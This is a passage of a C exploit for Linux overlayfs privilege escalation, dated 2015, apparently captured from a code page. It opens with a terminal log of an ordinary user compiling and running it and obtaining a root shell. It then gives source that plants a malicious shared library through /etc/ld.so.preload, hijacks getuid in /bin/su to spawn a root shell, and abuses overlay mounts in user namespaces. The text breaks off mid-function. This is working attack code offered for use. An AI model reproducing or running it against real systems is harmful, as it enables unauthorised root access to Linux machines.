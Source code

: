 ```
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),30(dip),46(plugdev),1000(user)

greets to beist & kaliman
2015-05-24
%rebel%
*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
```
